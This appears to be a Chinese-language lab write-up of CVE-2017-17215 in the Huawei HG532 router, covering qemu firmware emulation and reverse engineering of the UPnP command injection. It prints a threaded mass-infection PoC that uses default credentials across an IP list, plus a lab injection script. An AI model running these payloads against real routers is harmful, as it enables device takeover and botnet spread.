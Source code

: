 ```yaml
---
title: "CVE-2017-17215"
subtitle: "華為 HG532"
layout: post
author: "Hsu"
published: true
header-style: text
tags:
  - CVE
---
```

# CVE-2017-17215
> 工具: qemu-mips

## description
Huawei HG532 with some customized versions has a **remote code execution** vulnerability. An authenticated attacker could **send malicious packets to port 37215** to launch attacks. Successful exploit could lead to the remote execution of arbitrary code.
- 關鍵字: `37215`

## 模擬
- [韌體檔案](https://github.com/kevin0920911/kevin0920911.github.io/raw/master/firmware/HG532eV100R001C01B020.zip)
- 先把映像檔載下來
    ```bash
    wget https://people.debian.org/~aurel32/qemu/mips/debian_squeeze_mips_standard.qcow2
    wget https://people.debian.org/~aurel32/qemu/mips/vmlinux-2.6.32-5-4kc-malta
    ```
- 網路配置
    - 網橋創立
    ```bash
    sudo brctl addbr Virbr0
    sudo ifconfig Virbr0 192.168.10.1/24 up
    ```
    - 增加tap0接口
    ```bash
    sudo tunctl -t tap0
    sudo ifconfig tap0 192.168.10.11/24 up
    sudo brctl addif Virbr0 tap0
    ```
- 創建虛擬機
    ```bash
    sudo qemu-system-mips -M malta -kernel vmlinux-2.6.32-5-4kc-malta -hda debian_squeeze_mips_standard.qcow2 -append "root=/dev/sda1 console=tty0" -netdev tap,id=tapnet,ifname=tap0,script=no -device rtl8139,netdev=tapnet -nographic
    ```
- 在虛擬機上設定網路
    ```bash
    ifconfig eth0 192.168.10.2/24 up
    ping 192.168.10.1 -c10
    ```
- 在本機端傳送檔案
    ```bash
    scp -r squashfs-root/ root@192.168.10.2:~/
    ```
- 掛載檔案
    ```bash
    mount -o bind /dev ./squashfs-root/dev
    mount -t proc /proc ./squashfs-root/proc
    ```
- 回到本機端設定
    ```bash
    ssh root@192.168.10.2
    chroot squashfs-root /bin/sh
    ./bin/upnp
    ./bin/mic
    ```
- 接著就會發現ip改變，ssh中斷，因此要改回去
    ```bash
    ifconfig eth0 192.168.10.2/24 up
    ```
- 最後模擬成功，可以去192.168.10.2看
## PoC
```python3=
import threading, sys, time, random, socket, re, os, struct, array, requests
from requests.auth import HTTPDigestAuth
ips = open(sys.argv[1], "r").readlines()
cmd = "" # Your MIPS (SSHD)
rm = "<?xml version=\"1.0\" ?>\n    <s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\n    <s:Body><u:Upgrade xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\">\n    <NewStatusURL>$(" + cmd + ")</NewStatusURL>\n<NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL>\n</u:Upgrade>\n    </s:Body>\n    </s:Envelope>"

class exploit(threading.Thread):
		def __init__ (self, ip):
			threading.Thread.__init__(self)
			self.ip = str(ip).rstrip('\n')
		def run(self):
			try:
				url = "http://" + self.ip + ":37215/ctrlt/DeviceUpgrade_1"
				requests.post(url, timeout=5, auth=HTTPDigestAuth('dslf-config', 'admin'), data=rm)
				print "[SOAP] Attempting to infect " + self.ip
			except Exception as e:
				pass

for ip in ips:
	try:
		n = exploit(ip)
		n.start()
		time.sleep(0.03)
	except:
		pass
            
```
- 可以看到注入點應該是`NewDownloadURL`，但問題是在哪裡?
    - 往下看會看到`NewDownloadURL`是命令注射點

## write up
- 尋找幾個關鍵字: `37215`, `NewDownloadURL`
    ![image](https://hackmd.io/_uploads/ryA2TnUT0.png)
    - 所以漏洞應該與`/bin/upnp`, `/bin/mic`有關
- 逆向`/bin/upnp`，並搜尋`NewDownloadURL`後會出現這個
![image](https://hackmd.io/_uploads/SJPppnUpA.png)
    - 可以看出`ATP_XML_GetChildNodeByName`功能是分析XML，並將結果字串丟到第三個參數，回傳值是成功與否
    - 接著她可愛的程式碼沒經過任何處理就直接把字串拚一拚丟到system中
    - 因此我們可以用xml建構一些壞東西
- `script.py`
    ```python=
    import requests
    from requests.auth import HTTPDigestAuth


    data = '''
    <?xml version="1.0" ?>
     <s:Envelope xmlns:s="http://schemas.xmlsoap.org/soap/envelope/" s:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
      <s:Body><u:Upgrade xmlns:u="urn:schemas-upnp-org:service:WANPPPConnection:1">
       <NewStatusURL>;/bin/busybox ls -al;</NewStatusURL>
       <NewDownloadURL>HUAWEIUPNP</NewDownloadURL>
      </u:Upgrade>
     </s:Body>
    </s:Envelope>
    '''

    requests.post('http://192.168.10.2:37215/ctrlt/DeviceUpgrade_1',auth=HTTPDigestAuth('dslf-config', 'admin'),data=data)
    ```
- 結果(點到為止就好，剩下就是幹一個reverse shell出來，~~我累累病~~)
    - ![image](https://hackmd.io/_uploads/r1ERa28aC.png)



